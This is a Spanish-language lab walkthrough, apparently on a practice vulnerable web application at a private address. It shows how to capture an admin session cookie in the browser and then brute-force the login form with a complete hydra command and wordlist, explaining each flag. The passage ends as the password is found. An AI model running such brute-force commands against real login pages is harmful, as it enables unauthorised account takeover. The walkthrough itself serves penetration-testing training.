


El primer paso es sacar la cookie de sesión de admin para poder acceder al directorio específico para poder realizar las pruebas de penetración, para ello accederemos a nuestro navegador para iniciar sesión, y posteriormente pulsaremos la tecla F12 para acceder a la ruta Aplication > Cookies > PHPSESSID y almacenaremos dicho valor:

En este apartado, vamos a realizar un ataque de fuerza bruta para conseguir acceso a nuestra página web vulnerable, haciendo uso de hidra en la versión 9.3 junto a un par de wordlists con posibles nombres de usuarios y contraseñas filtradas. Para ello vamos a implementar el siguiente comando:

    hydra -l admin -P passwd.txt 'http-get-form://192.168.1.146/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome:H=Cookie\: PHPSESSID=q1al1s91f2l75phkc846d636e6; security=medium'

hydra
    
    → Es la herramienta utilizada para realizar el ataque de fuerza bruta.

-l admin
    
    → Especifica el nombre de usuario.

-P /home/ubuntu/Desktop/credentials/passwds.txt
    
    → Especifica la lista de contraseñas, la cual contiene millones de combinaciones comunes.

http-get-form://192.168.1.146/vulnerabilities/brute/

    → Indica que se atacará un formulario de inicio de sesión usando el método GET.
    → La URL objetivo es http://192.168.1.146/vulnerabilities/brute/ 

username=^USER^&password=^PASS^&Login=Login
    
    → Define la estructura del formulario de autenticación:

        ^USER^ será reemplazado por el usuario (admin en este caso).
        ^PASS^ será reemplazado por cada contraseña de la lista.
        Login=Login representa el botón de envío.

:S=Welcome
    
    → Indica la condición de éxito: si la respuesta del servidor contiene la palabra "Welcome", significa que el acceso fue exitoso.

:H=Cookie\: PHPSESSID=q1al1s91f2l75phkc846d636e6; security=medium
   
     → Agrega una cabecera HTTP con cookies:

        PHPSESSID=q1al1s91f2l75phkc846d636e6 
            Identificador de sesión.
    
        security=medium 
            Establece un nivel de seguridad en la plataforma de pruebas.

Y una vez finalizada la ejecución, podemos observar que ha encontrado la contraseña:

